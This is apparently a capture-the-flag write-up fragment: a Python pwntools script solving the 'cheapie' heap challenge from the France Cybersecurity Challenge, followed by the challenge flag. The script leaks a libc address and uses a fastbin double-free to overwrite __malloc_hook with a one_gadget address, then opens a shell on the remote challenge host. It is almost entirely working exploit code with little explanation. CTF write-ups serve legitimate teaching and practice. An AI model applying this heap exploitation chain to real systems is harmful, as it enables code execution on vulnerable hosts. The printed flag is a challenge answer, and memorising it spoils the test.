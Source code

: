 ```py
    b = malloc(104, "")
    free(a)
    free(b)
    free(a)

    c = malloc(104, where-0x10)
    d = malloc(104, "")
    e = malloc(104, "")
    f = malloc(104, what)

libc = ELF("./libc-2.23.so")
cheapie = ELF("./cheapie")

r = remote("challenges2.france-cybersecurity-challenge.fr", 4006)
one_gadget_offset = 0xf1207

a = malloc(136, "") # small chunk
b = malloc(136, "")
free(a)

leak = u64(read_at(a)[0])
print(hex(leak))
libc_base = leak - 0x3c4b78
addr_malloc_hook = libc_base + libc.symbols["__malloc_hook"]

print(hex(libc.symbols["__libc_start_main"]))

info("libc_base @ {}".format(hex(libc_base)))
info("addr_malloc_hook @ {}".format(hex(addr_malloc_hook)))

www(b"A"*19 + p64(libc_base+one_gadget_offset), addr_malloc_hook-19) # -19 -> have good size for the chunk

r.recvuntil(">>> ")
r.sendline("1") # malloc
r.recvuntil(": ")
r.sendline("16")

r.interactive()
```

# flag : `FCSC{e66ad56c1e9814bb23a9e2d6c05aacae213edd6e2c2ed12d1057f3bcf897c849}`
